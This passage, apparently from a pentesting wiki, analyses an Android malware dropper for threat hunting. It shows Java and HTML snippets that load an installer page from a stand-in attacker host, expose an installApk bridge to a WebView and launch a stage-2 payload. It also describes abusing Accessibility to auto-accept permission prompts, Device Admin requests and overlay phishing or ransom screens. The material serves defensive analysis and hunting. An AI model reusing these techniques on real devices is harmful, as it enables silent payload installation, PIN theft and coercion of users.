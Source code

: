 ```java
    wv.loadUrl("https://attacker.site/install.html");
  }
}
```

HTML on the page:

```html
<button onclick="bridge.installApk()">Install</button>
```

After install, the dropper starts the payload via explicit package/activity:

```java
Intent i = new Intent();
i.setClassName("com.stage2.core", "com.stage2.core.MainActivity");
startActivity(i);
```

Hunting idea: untrusted apps calling `addJavascriptInterface()` and exposing installer-like methods to WebView; APK shipping an embedded secondary payload under `assets/` and invoking the Package Installer Session API.

### Consent funnel: Accessibility + Device Admin + follow-on runtime prompts
Stage-2 opens a WebView that hosts an “Access” page. Its button invokes an exported method that navigates the victim to the Accessibility settings and requests enabling the rogue service. Once granted, malware uses Accessibility to auto-click through subsequent runtime permission dialogs (contacts, overlay, manage system settings, etc.) and requests Device Admin.

- Accessibility programmatically helps accept later prompts by finding buttons like “Allow”/“OK” in the node-tree and dispatching clicks.
- Overlay permission check/request:

```java
if (!Settings.canDrawOverlays(ctx)) {
  Intent i = new Intent(Settings.ACTION_MANAGE_OVERLAY_PERMISSION,
      Uri.parse("package:" + ctx.getPackageName()));
  ctx.startActivity(i);
}
```

See also:

{{#ref}}
../../mobile-pentesting/android-app-pentesting/accessibility-services-abuse.md
{{#endref}}

### Overlay phishing/ransom via WebView
Operators can issue commands to:
- render a full-screen overlay from a URL, or
- pass inline HTML that is loaded into a WebView overlay.

Likely uses: coercion (PIN entry), wallet opening to capture PINs, ransom messaging. Keep a command to ensure overlay permission is granted if missing.
